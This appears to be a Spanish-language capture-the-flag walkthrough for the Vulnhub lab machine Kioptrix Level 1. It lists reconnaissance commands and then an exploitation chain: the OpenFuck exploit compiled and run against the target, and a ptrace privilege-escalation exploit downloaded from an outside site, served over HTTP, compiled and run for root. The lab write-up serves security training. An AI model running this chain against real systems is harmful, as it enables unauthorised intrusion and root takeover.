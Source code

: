 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=320&height=80&lines=KIOPTRIX_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177676522-7542cd60-297b-4537-a657-a6e613e22122.png)

IP host: `192.168.1.104`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.104
```
![2](https://user-images.githubusercontent.com/75953873/177677054-4379065b-7b00-4c1a-a2b7-63688488f52e.png)

Puertos abiertos: [22,80,111,139,443]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,111,139,443 -A 192.168.1.104
```
![3](https://user-images.githubusercontent.com/75953873/177677619-5b6fa806-14d5-4474-b6a8-800e1a8b8618.png)

![4](https://user-images.githubusercontent.com/75953873/177677647-f1513f29-98ca-40bd-901e-ac9466faa0aa.png)

Servidor corriendo: **HTTP Apache** (puerto 80 y 443)

O.S: **Linux**

URL: `http://192.168.1.104`

![5](https://user-images.githubusercontent.com/75953873/177677946-e9cfd943-0c77-44a3-991c-c2d5a0377648.png)

- *Paso 4:* Escanear vulnerabilidades en el servidor con Nikto. 
```
nikto -h http:///192.168.1.104
```
![6](https://user-images.githubusercontent.com/75953873/177678387-f0e381c3-874c-4919-b910-15f9fd2e5de6.png)

Vulnerabilidad **CVE-2002-0082**: permite que un atacante explote el desbordamiento de búfer que se encuentra en las versiones de Samba 2.2.0 a 2.2.8.

https://www.cvedetails.com/cve/CVE-2002-0082/

- *Paso 5:* Localizar exploti, descargarlo, compilarlo y ejecutarlo. 
```
searchsploit -m 47080
```
![8](https://user-images.githubusercontent.com/75953873/177683169-2b356aea-a453-4d46-9e64-6bf3a0906d15.png)

```
mv 47080.c OpenFuck.c
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck 0x6b 192.168.1.104 443 -c 40
```
![7](https://user-images.githubusercontent.com/75953873/177683272-6f97282a-31d1-46be-94c9-3020f0e959be.png)

```
wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
mv ptrace-kmod.c ptrace.c
python3 -m http.server 80
```
![10](https://user-images.githubusercontent.com/75953873/177688536-4457928c-35d9-4f25-96c4-e63533b71702.png)

```
cd /tmp
gcc -o exploit ptrace.c
chmod +x exploit
./exploit
cd /root
cat anaconda-ks.cfg
```
![9](https://user-images.githubusercontent.com/75953873/177688261-c2596953-e1ff-47d5-a64e-0f67619cad50.png)
